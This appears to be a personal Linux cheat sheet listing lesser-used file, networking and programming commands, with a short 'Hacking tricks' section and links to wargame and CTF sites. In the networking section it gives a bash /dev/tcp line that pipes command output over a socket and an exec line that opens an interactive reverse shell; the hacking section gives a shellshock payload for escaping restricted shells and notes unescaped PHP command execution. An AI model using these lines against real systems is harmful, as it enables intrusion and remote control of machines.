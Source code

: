 # Linux cheat sheet 
A quick reference for less commonly used commands and tricks.

## File management
  **`xxd`**
    Create hex dumps

  **`strings`**
    Good for getting readable text out of dumps

  **`uniq`**
    Isolate unique lines in file

  **`diff`**
    Examine file differences. vimdiff better for extensive edits

  **`patch`**
    Apply changes to files

  **`mkfifo`**
    first in first out pipe. 

## Networking
  **`nmap`**
    Port scanning. 

  **`nc` or nmap's `ncat`**
    Swiss army knife for network testing.

  **`telnet`**
    Deprecated, but useful for port testing

  **`openssl`**
    Openssl utility: key management, cert generation, etc.

  **`/dev/tcp`**
    Can redirect things through network connections with `/dev/tcp/"ip"/"port"`. Not
    a real file, but more of a bash construct. Useful injection command. Has udp variant too. 
    ex. `bash -c "id &> /dev/tcp/127.0.0.1/80"`

  **`exec "file-descriptor"<>"file"`**
    Can be used to create a read-write file for network communication in lieu netcat.
    Ex. `exec 134<>/dev/tcp/127.0.0.1/30002; bash <&134 >&134 2>&1 &` will open up
    an interactive shell. Just have a listener on port 30002 of the 127.0.0.1 machine

## Programming

  **`ldconfig`**
    Can see installed libs, etc.

  **`ldd`**
    Useful to find what a program is linked against.

## Hacking tricks

  **shellshock**
    `ssh user@host '() { :;}; echo BAD CODE'` allows an authorized user with an authorized key
    to execute restricted commands. Good for restriced shell escalating.

  **PHP**
    Somebody using passthru(), exec(), or system() can possibly be exploited if they aren't
    using escapeshellarg().

## Sites

https://overthewire.org
https://www.scip.ch/en/?labs.20181206
https://hackthebox.eu
https://root-me.org
https://lolbas-project.github.io/#
https://gtfobins.github.io/#+shell
